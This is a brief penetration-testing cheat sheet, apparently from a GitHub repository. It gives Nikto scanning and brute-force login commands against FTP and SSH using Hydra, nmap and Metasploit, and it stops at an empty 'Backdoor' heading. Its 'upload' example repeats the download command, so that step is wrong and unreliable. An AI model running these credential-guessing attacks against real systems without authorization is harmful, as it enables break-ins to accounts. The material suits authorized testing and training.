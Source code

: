 - Nikto Vulnerability Scanning

``` 
nikto -h <url>
```


## FTP 21

- BruteForcing
 
``` 
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```
- Downloading a file
   
``` 
# Downloading a file 
ftp <IP>
passive 
binary
get <File> 
```
- Uploading a file

``` 
# Uploading a file 
ftp <IP>
passive 
binary
get <File> 
```

## SSH 22

- Brute Forcing 

``` 
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```

``` 
nmap -p 22 --script ssh-brute --script-args userdb=<users.txt> <target_IP>
```

``` 
#using msfconsole

use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target ip>
set USERPASS_FILE /usr/share/wordlists/rockyou.txt
set STOP_ON_SUCCESS true
set verbose true
exploit
```

- Backdoor - POST EXPLOITATION
